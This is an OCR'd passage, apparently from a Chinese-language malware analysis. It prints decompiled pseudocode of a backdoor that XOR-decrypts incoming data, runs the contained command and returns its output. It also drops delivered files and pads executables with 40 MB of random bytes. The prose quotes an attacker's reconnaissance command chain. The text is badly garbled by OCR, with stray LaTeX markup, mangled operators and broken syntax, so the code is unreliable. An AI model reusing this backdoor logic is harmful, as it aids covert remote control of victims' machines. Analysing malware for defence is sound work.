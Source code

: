 temp_q = 0i64;   
while（ temp_q <= 7 )   
{ if （return_a1_((temp_q + filebuf + 10)） 1= 10 \*(temp_q +1)+ 1 )// (temp_q+1）\*10+1 dword_14001A058 = 22; handleArrayValue(2i64); HeapFree__(buf_8); HeapFree(filebuf); HeapFree(decrypt_data); sub_14000FB84(tmp_file); goto end; v74=return_a1_（（temp_q+filebuf+18));//第19-26字节是密钥，共8个字节 set_byte_value((temp_q+buf_8)，v74);// 8个字节 v71 =_OFADD_(1i64,temp_q++); if （v71） break;   
XORCalculateAndWriteBack（filebuf+26，filesize-26，buf_8，8);//从第27个字节之后开始解密   
int_temp = 26i64;   
do   
{ if （filesize -1<int_temp) break; v75 =return_a1_(（int_temp + filebuf)); set_byte_value((int_temp + decrypt_data - 26), v75); v71 = _OFADD_(1i64，int_temp++);   
while ( !v71 );   
handleArrayValue(2i64);   
HeapFree_(buf_8);   
HeapFree(filebuf);  

解密的数据可以只有一段，这一段即要执行的命令；  

qword_14001B110 $=$ a5;  
CopyStringToHeap(&v17， a1);  
CopyStringToHeap(&v18，a2);  
co_res $=$ ExecuteProcess_(v17，v18，0x140018028ui64，14);// 命令执行  
$\mathbf{v}12\mathbf{\Omega}=\mathbf{\Omega}$ qword_14001B110;  
CopyWideStringToMemory(v17);  
CopyWideStringToMemory(&dword_140018028 + 1);  
CopyWideStringToMemory(v18);  
CopyWideStringToMemory(word_140018444);  
ResizeAndCopyMemory(&hHeap, v12);  
if ( co_res) //命令执行成功  
{$\vee21=$ 0i64;do{if （!sub_140004830(co_res）) //判断管道是否具有可读数据break;if （ sub_140004898(co_res）) //判断管道可读数据大小{$\mathbf{v}13=$ qword_14001B110;CopyWideStringToMemory(hHeap);sub_1400048D0(co_res，qword_14001B110)；//读取命令执行结果CopyWideStringToMemory(&word_140018444[68]);ResizeAndCopyMemory(&hHeap, v13);if （!sub_140004930(co_res,1u))++v21;while （v21 != 8000 ):  

在我们的观察中，攻击者执行了“cmd.exe／csysteminfo&netstat-naoptcp&ipconfig／all&tasklist”命令，通过cmd命令提示符，收集了关于受害者系统的详细信息，网络连接状况，网络接口的配置信息以及当前运行中的所有任务或进程。这可能是为了了解系统环境、识别潜在的攻击矢量，或者寻找用于深度渗透的进一步信息。  

如果包含三段数据，则第二段和第三段为文件名和文件数据。其中如果投递的文件是可执行文件，则添加额外的40,000,000字节随机数据。  

if （ filesize > first_data_len $^+$ 0x1Bi64）//第二段数据   
{ second_data_len $=$ return_a1_((first_data_len $^{\star}$ decrypt_data+1));//第二段数据长度 if （filesize $\zeta=$ second_data_len $^+$ first_data_len + 28 ) { dword_14001A058 $=$ 24; HeapFree__(decrypt_data); sub_14000FB84(tmp_file); //清理 goto end; 1 HeapReAlloc_(&new_file, 0x40018028u,v79,v80); if （ second_data_len >θ) { int_temp_ $-$ 0i64; //第二段数据转为宽字节 do { if （ second_data_len - 1i64 $\rvert<$ int_temp_) break; v118 $=$ qword_14001B110; CopyWideStringToMemory(new_file); v101 $=$ qword_14001B110; v81 $=$ return_a1_((int_temp_ + first_data_len $^+$ decrypt_data + 2)); CreateWideStringWithChar(v81,v101); ResizeAndCopyMemory(&new_file, v118); v71 = _OFADD_(1i64，int_temp_++); while （!v71 ); third_data_len $=$ second_data_len + first_data_len + 2; if （ createFileAndStoreInfo(3i64,new_file）) { temp_w $=$ 0i64; do if （filesize - third_data_len - 27 $\textless$ temp_w ) break; v82 $=$ return_a1_((third_data_len $^+$ temp_w+decrypt_data));//第三段数据 sub_140010920(3i64，v82)；7/第三段数据写入文件 v71 = OFADD_(1i64，temp_w++); while( !v71 );   
v119 = qword_14001B110;   
createSubstringFromWideString(new_file,3,qword_14001B110);   
qword_14001B110 += 2i64;   
v110=qword_14001B110;   
base64_xor(&word_14001802E[6], qword_14001B110, v83, v84, qword_14001B11e);// exe   
qword_14001B110 = v119;   
if ( compareWideStrings((lpMem + v110),(lpMem + v119)) 11（v120 = qword_14001B110, createSubstringFromWideString(new_file，3,qword_14001B11e), qword_14001B110 $+=$ 2i64， v111 = qword_14001B110, base64_xor( &word_14001802E[146], qword_14001B110, v85, v86, qword_14001B110), //EXE qword_14001B110 =v120, compareWideStrings(lpMem + v111), (lpMem + v12e) ) temp_w = 0i64; do if （temp_w>39999999 ） break; v88 = CalculateRandomNumber(255i64); sub_140010920(3i64, v88); v71 = _OFADD_(1i64, temp_w++); while (Iv71 );   
handleArrayValue(3i64);  
